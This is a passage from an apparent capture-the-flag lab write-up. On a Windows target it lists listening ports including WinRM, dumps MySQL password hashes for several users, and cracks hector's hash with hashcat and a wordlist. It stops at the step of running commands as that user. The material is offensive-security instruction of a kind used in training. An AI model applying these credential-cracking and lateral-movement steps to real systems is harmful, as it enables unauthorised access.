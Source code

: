 This group means that he can run commands over WinRM.

I can see that the host is listening on 5985 (WinRM), even though the firewall must be preventing me from seeing it from my box:

```

PS C:\users> netstat -ano

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       816
  TCP    0.0.0.0:3306           0.0.0.0:0              LISTENING       1840
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       452
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       992
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       1708
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       592
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       608
  TCP    0.0.0.0:52629          0.0.0.0:0              LISTENING       2256
  TCP    10.10.10.167:80        10.10.14.4:48742      ESTABLISHED     4
  TCP    10.10.10.167:53175     10.10.14.4:443        ESTABLISHED     2736
  ...[snip]...

```

This means if I can find a password for hector, I can try to run commands as that user.

### Crack MySQL Password

I had earlier started running the MySQL passwords through `hashcat`. I had a `hashes` file:

```

root@kali# cat hashes 
hector:0E178792E8FC304A2E3133D535D38CAF1DA3CD9D
manager:CFE3EEE434B38CBF709AD67A4DCDEA476CBA7FDA                                 
root:0A4A5CAD344718DC418035A1F4D292BA603134D8

```

Then I started `hashcat`, and pretty quickly it broke hectors:

```

root@kali# hashcat -m 300 hashes --user /usr/share/wordlists/rockyou.txt --force
...[snip]...
0e178792e8fc304a2e3133d535d38caf1da3cd9d:l33th4x0rhector
...[snip]...

```

### Run Commands as hector
